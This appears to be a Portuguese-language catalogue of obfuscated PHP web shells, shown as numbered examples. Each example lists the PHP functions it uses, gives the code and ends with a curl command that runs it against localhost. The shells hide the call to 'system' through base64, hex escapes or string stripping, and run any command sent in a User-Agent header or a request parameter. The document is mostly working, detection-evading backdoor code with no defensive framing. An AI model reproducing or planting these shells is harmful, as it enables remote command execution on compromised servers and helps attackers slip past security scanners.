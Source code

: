 ```
(error_reporting(0)).($_=@explode(',',$_SERVER[base64_decode('SFRUUF9VU0VSX0FHRU5U')]))
.($_[0]("{$_[1]}")).exit; 

```


Execução: curl -v 'http://localhost/shell.php' --user-agent 'system,id;ls -la'



```

```

**EXEMPLO 07**
Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [GET_DEFINED_VARS](http://php.net/manual/pt_BR/function.get-defined-vars.php)
3. [VARIABLE FUNCTIONS](http://php.net/manual/pt_BR/functions.variable-functions.php)
4. [VARIABLE SHELLCODE](https://pt.wikipedia.org/wiki/Shellcode)
5. [SYSTEM](http://php.net/manual/pt_BR/function.system.php)
6. [EXIT](http://php.net/manual/pt_BR/function.exit.php)

Variáveis: \x30=0, \x73=s, \x79=y , \x73=s, \x74=t, \x65=e, \x6D=m
**CODE:**

```
 (error_reporting(0)).($_[0][]=@$_GET["\x30"])
.($_[1][] = "\x73").($_[1][] = "\x79").($_[1][] = "\x73")
.($_[1][] = "\x74").($_[1][] = "\x65").($_[1][] = "\x6D")
.($__=@get_defined_vars()['_'][1]).($___.=$__[0])
.($___.=$__[1]).($___.=$__[2]).($___.=$__[3])
.($___.=$__[4]).($___.=$__[5]).(($___("{$_[0][0]}")).exit);
```


Execução: curl -v 'http://localhost/shell.php?0=id;uname%20-a'

**EXEMPLO 08**
Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [STR_REPLACE](http://php.net/manual/pt_BR/function.str-replace.php)
3. [VARIABLE FUNCTIONS](http://php.net/manual/pt_BR/functions.variable-functions.php)

Variáveis: $_REQUEST[0]=Comando que será executado
**CODE:**

```
 (error_reporting(0)).(str_replace(['$','@','#'],''
,'s$##y@#$@#$@#$@s$#$@#$@#$@$te$#@#$m')).($_("{$_REQUEST[0]}"));
```


Execução: curl -v 'http://localhost/shell.php?0=id

```

```
